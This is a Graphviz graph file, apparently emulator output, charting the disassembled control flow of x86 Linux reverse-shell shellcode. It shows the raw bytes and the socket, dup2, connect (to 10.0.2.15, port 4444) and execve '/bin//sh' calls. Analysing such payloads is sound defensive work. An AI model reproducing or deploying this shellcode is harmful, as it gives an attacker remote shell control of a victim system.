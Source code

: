 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x55ccefe33b60" [shape=box, label = "0x00417000 31DB                            xor ebx,ebx\l0x00417002 F7E3                            mul ebx\l0x00417004 53                              push ebx\l0x00417005 43                              inc ebx\l0x00417006 53                              push ebx\l0x00417007 6A02                            push byte 0x2\l0x00417009 89E1                            mov ecx,esp\l0x0041700b B066                            mov al,0x66\l"]
	 "0x55ccefe2fcc0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041700d socket\l"]
	 "0x55ccefe2f610" [shape=box, label = "0x0041700f 93                              xchg eax,ebx\l0x00417010 59                              pop ecx\l"]
	 "0x55ccefe2e280" [shape=box, label = "0x00417011 B03F                            mov al,0x3f\l"]
	 "0x55ccefe2da10" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417013 dup2\l"]
	 "0x55ccefe389f0" [shape=box, label = "0x00417015 49                              dec ecx\l"]
	 "0x55ccefe38b60" [shape=box, label = "0x00417016 79                              jns 0x1\l"]
	 "0x55ccefe38cd0" [shape=box, label = "0x00417018 680A00020F                      push dword 0xf02000a\l0x0041701d 680200115C                      push dword 0x5c110002\l0x00417022 89E1                            mov ecx,esp\l0x00417024 B066                            mov al,0x66\l0x00417026 50                              push eax\l0x00417027 51                              push ecx\l0x00417028 53                              push ebx\l0x00417029 B303                            mov bl,0x3\l0x0041702b 89E1                            mov ecx,esp\l"]
	 "0x55ccefe399c0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041702d connect\l"]
	 "0x55ccefe39af0" [shape=box, label = "0x0041702f 52                              push edx\l0x00417030 686E2F7368                      push dword 0x68732f6e\l0x00417035 682F2F6269                      push dword 0x69622f2f\l0x0041703a 89E3                            mov ebx,esp\l0x0041703c 52                              push edx\l0x0041703d 53                              push ebx\l0x0041703e 89E1                            mov ecx,esp\l0x00417040 B00B                            mov al,0xb\l"]
	 "0x55ccefe3a730" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417042 execve\l"]
	 "0x55ccefe33b60" -> "0x55ccefe2fcc0" [style = bold ]
	 "0x55ccefe2fcc0" -> "0x55ccefe2f610" [style = bold ]
	 "0x55ccefe2f610" -> "0x55ccefe2e280" [style = bold ]
	 "0x55ccefe2e280" -> "0x55ccefe2da10" [style = bold, color=orange ]
	 "0x55ccefe2da10" -> "0x55ccefe389f0" [style = bold, color=orange ]
	 "0x55ccefe389f0" -> "0x55ccefe38b60" [style = bold, color=orange ]
	 "0x55ccefe38b60" -> "0x55ccefe2e280" [style = bold, color=orange ]
	 "0x55ccefe38b60" -> "0x55ccefe38cd0" [style = bold ]
	 "0x55ccefe38cd0" -> "0x55ccefe399c0" [style = bold ]
	 "0x55ccefe399c0" -> "0x55ccefe39af0" [style = bold ]
	 "0x55ccefe39af0" -> "0x55ccefe3a730" [style = bold ]
}